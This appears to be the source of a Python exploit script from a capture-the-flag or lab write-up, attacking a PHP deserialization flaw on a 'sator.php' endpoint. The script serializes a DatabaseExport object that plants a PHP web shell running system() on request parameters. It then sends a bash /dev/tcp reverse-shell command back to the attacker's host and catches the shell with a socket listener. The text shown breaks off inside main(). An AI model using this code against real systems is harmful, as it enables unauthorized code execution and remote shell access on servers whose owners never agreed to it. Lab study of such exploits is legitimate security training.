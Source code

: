 ```py
'''Here come the Functions'''
# Set the handler up
def handler(lport,target):
    print("[+] Starting handler on %s [+]" %lport)
    t = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0',lport))
    s.listen(1)
    conn, addr = s.accept()
    print("[+] Connection from %s [+]" %target)
    t.sock = conn
    print("[+] Shell'd [+]")
    t.interact()

# Sending the malicious function to the server
'''
Script in php which generated the malicious serialized object

<?php
class DatabaseExport {
  public $user_file = '0x4rt3mis.php';
  public $data = '<?php system($_REQUEST["cmd"]); ?>';
  }
print serialize(new DatabaseExport);
?>

Which generated - O:14:"DatabaseExport":2:{s:9:"user_file";s:13:"0x4rt3mis.php";s:4:"data";s:34:"<?php system($_REQUEST["cmd"]); ?>";}
'''
def sendMalicious(rhost):
    print("[+] Let's send the malicious serialized object !!!! [+]")
    url = "http://" + rhost + ":80/sator.php?arepo=O%3A14%3A%22DatabaseExport%22%3A2%3A%7Bs%3A9%3A%22user_file%22%3Bs%3A13%3A%220x4rt3mis.php%22%3Bs%3A4%3A%22data%22%3Bs%3A34%3A%22%3C%3Fphp%20system%28%24_REQUEST%5B%22cmd%22%5D%29%3B%20%3F%3E%22%3B%7D"
    r.get(url, proxies=proxies)
    print("[+] Object written to %s/0x4rt3mis.php !!!! [+]" %rhost)

# Now, let's get the reverse shell easily
def getReverse(rhost, lhost, lport):
    print("[+] Let's get the reverse shell !!!! [+]")
    url = "http://%s:80/0x4rt3mis.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"cmd": "/bin/bash -c 'bash -i > /dev/tcp/%s/%s 0>&1'" %(lhost,lport)}
    r.post(url, headers=headers, data=data, proxies=proxies)


def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-li', '--ipaddress', help='Listening IP address for reverse shell', required=True)
    parser.add_argument('-lp', '--port', help='Listening port for reverse shell', required=True)
    args = parser.parse_args()

    rhost = args.target
    lhost = args.ipaddress
    lport = args.port

    '''Here we call the functions'''
    # Set up the handler
    thr = Thread(target=handler,args=(int(lport),rhost))
    thr.start()
```